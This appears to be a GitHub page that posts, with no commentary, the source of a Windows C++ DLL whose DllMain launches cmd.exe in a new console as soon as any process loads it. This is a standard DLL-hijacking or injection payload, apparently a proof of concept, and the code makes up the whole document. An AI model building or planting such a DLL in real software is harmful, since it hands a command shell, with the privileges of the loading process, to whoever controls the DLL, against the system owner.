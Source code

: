 ![image](https://github.com/user-attachments/assets/66cec1d0-c268-4302-8997-d767a2d3a4c5)

```cpp
#include "pch.h"
#include <iostream>
#include <windows.h>
void executor()
{

        STARTUPINFO si = { sizeof(STARTUPINFO) };
        si.dwFlags = STARTF_USESHOWWINDOW;
        si.wShowWindow = SW_SHOWNORMAL;  // Ensures the console window is visible

        PROCESS_INFORMATION pi;

        if (CreateProcess(
            L"C:\\Windows\\System32\\cmd.exe", // Application path
            NULL,                            // Command line args
            NULL,                            // Process handle not inheritable
            NULL,                            // Thread handle not inheritable
            FALSE,                           // Inherit handles
            CREATE_NEW_CONSOLE,              // Ensures a new console window
            NULL,                            // Use parent's environment
            NULL,                            // Use parent's starting directory
            &si,                             // Pointer to STARTUPINFO
            &pi)                             // Pointer to PROCESS_INFORMATION
            )
        {
            CloseHandle(pi.hProcess);
            CloseHandle(pi.hThread);
        }
        else
        {
            std::cerr << "Failed to start cmd.exe. Error: " << GetLastError() << std::endl;
        }
    }


BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        executor();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
